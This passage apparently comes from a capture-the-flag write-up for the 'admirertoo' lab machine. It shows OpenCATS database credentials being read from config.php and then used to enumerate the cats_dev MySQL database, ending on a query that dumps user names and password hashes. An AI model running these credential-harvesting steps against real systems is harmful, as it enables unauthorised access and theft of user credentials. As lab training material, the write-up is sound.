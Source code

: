 Looking in that folder the readme points us to the docs [here](https://opencats-documentation.readthedocs.io/en/latest/introduction.html). It seems to be a free recruitment system, and looking in the folder I found a config file with data base credentials:

```text
opentsdb@admirertoo:/opt/opencats$ more config.php
<?php
/*
 * CATS
 * Configuration File
 *
<SNIP>
/* Database configuration. */
define('DATABASE_USER', 'cats');
define('DATABASE_PASS', 'adm1r3r0fc4ts');
define('DATABASE_HOST', 'localhost');
define('DATABASE_NAME', 'cats_dev');
```

## MySQL Enumeration

We can find the database:

```text
opentsdb@admirertoo:/opt/opencats$ find / -name cats_dev 2>/dev/null
/var/lib/mysql/cats_dev
```

With the credentials we can enumerate the database and dump users:

```text
opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show databases;'
+--------------------+
| Database           |
+--------------------+
| cats_dev           |
| information_schema |
+--------------------+
opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show tables from cats_dev;'
+--------------------------------------+
| Tables_in_cats_dev                   |
+--------------------------------------+
| access_level                         |
<SNIP>
| user                                 |
| user_login                           |
| word_verification                    |
| xml_feed_submits                     |
| xml_feeds                            |
| zipcodes                             |
+--------------------------------------+
opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -e 'show columns in user from cats_dev;'
+---------------------------+--------------+------+-----+---------+----------------+
| Field                     | Type         | Null | Key | Default | Extra          |
+---------------------------+--------------+------+-----+---------+----------------+
| user_id                   | int(11)      | NO   | PRI | NULL    | auto_increment |
| site_id                   | int(11)      | NO   | MUL | 0       |                |
| user_name                 | varchar(64)  | NO   |     |         |                |
| email                     | varchar(128) | YES  |     | NULL    |                |
| password                  | varchar(128) | NO   |     |         |                |
<SNIP>
| can_see_eeo_info          | int(1)       | YES  |     | 0       |                |
+---------------------------+--------------+------+-----+---------+----------------+
opentsdb@admirertoo:/opt/opencats$ mysql -u cats -padm1r3r0fc4ts -D cats_dev -e 'select user_name,password from user;'
```